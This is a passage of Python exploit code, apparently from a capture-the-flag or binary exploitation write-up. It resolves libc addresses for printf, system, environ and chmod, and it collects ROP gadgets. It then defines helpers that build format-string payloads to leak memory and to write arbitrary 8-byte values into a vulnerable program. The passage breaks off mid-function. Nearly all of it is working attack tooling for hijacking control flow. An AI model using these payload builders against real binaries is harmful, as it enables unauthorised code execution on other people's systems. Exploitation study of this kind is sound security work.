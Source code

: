 ```python
libc_printf_offset = libc.symbols['printf']
libc_system_offset = libc.symbols['system']
libc_environ_offset = libc.symbols['environ']
libc_chmod_offset = libc.symbols['chmod']

binary_rop = ROP(BINARY)
libc_rop = ROP(LIBC)
pop_rsp_ret_offset = libc_rop.rsp.address
pop_rdi_ret_offset = libc_rop.rdi.address
pop_rsi_ret_offset = libc_rop.rsi.address
pop_r13_ret_offset = binary_rop.find_gadget(['pop r13']).address
pop_r13_ret_offset_2 = libc_rop.find_gadget(['pop r13']).address
leave_ret_offset = libc_rop.find_gadget(['leave']).address

def gen_read_format_string(rsp_to_format_offset, position):
    buf = b''
    buf += b'%' + str(position).encode() + b'$s'
    buf += b'B' * (8 - ((rsp_to_format_offset + len(buf)) % 8))

    return buf

def read_addr(p, payload_size, rsp_to_format_offset, address):
    init_position = 6 + int(rsp_to_format_offset / 8)
    buf = gen_read_format_string(rsp_to_format_offset, init_position)

    position = 6 + int((rsp_to_format_offset + len(buf)) / 8)
    buf = gen_read_format_string(rsp_to_format_offset, position)

    buf += struct.pack('<Q', address)
    buf += (payload_size - len(buf)) * b'A'

    p.send(buf)
    p.recvuntil(b'Your input is:')
    p.recvuntil(b'\n')  # contains many spaces
    leak_addr = struct.unpack('<Q', p.recv(6) + b'\x00' * 2)[0]

    return leak_addr

def gen_write_format_string(rsp_to_format_offset, position, value, prefix_string_size, debug):
    buf = b''

    # First trick - trigger a write of 0 (or short prefix string), of length 8 bytes. That would clear most MSBs.
    buf += b'%' + str(position).encode() + b'$ln'

    value_bytes = list(struct.unpack('<HHHH', struct.pack('<Q', value)))
    value_bytes_sorted = sorted(value_bytes)

    for val in value_bytes_sorted:
        if val == 0:
            continue
        val_index = value_bytes.index(val)
        if not debug:
            if (val != prefix_string_size):  # Handle duplication, no need to write more bytes
                buf += b'%' + str(val - prefix_string_size).encode() + b'c'
        else:
            # Incase of debug, print only 2 padding spaces
            buf += b'%' + (len(str(val - prefix_string_size).encode()) - 1) * b'0' + b'2' + b'c'

        if debug:
            # TODO: restore specifier
            buf += b'%' + str(position + val_index).encode() + b'$lx'
        else:
```
